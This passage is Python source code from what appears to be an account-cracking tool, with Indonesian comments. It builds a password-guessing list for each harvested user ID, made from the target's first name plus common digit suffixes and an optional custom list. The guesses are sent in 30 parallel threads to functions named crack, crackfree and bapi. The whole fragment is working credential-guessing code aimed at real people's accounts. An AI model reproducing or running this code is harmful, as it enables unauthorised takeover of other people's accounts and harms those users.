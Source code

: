 	elif ngen in ['3','03']:
		method.append('metod3')
	else:
		method.append('metod1')
	passwrd()
	#-------------------[ BAGIAN-WORDLIST ]------------#
def passwrd():
	terkumpul()
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(frs+'12')
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'321')
					pwv.append(frs+'01')
					pwv.append(frs+'03')
					pwv.append(frs+'03')
					pwv.append(frs+'04')
					pwv.append(frs+'05')
					pwv.append(frs+'06')
					pwv.append(frs+'07')
					pwv.append(frs+'08')
					pwv.append(frs+'09')
					pwv.append(frs+'99')
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+'12')
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'321')
					pwv.append(frs+'01')
					pwv.append(frs+'03')
					pwv.append(frs+'03')
					pwv.append(frs+'04')
					pwv.append(frs+'05')
					pwv.append(frs+'06')
					pwv.append(frs+'07')
					pwv.append(frs+'08')
					pwv.append(frs+'09')
					pwv.append(frs+'99')
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'metod1' in method:
				pool.submit(crack,idf,pwv)
			elif 'metod2' in method:
				pool.submit(crackfree,idf,pwv)
			elif 'metod3' in method:
				pool.submit(bapi,idf,pwv)
			else:
				pool.submit(crack,idf,pwv)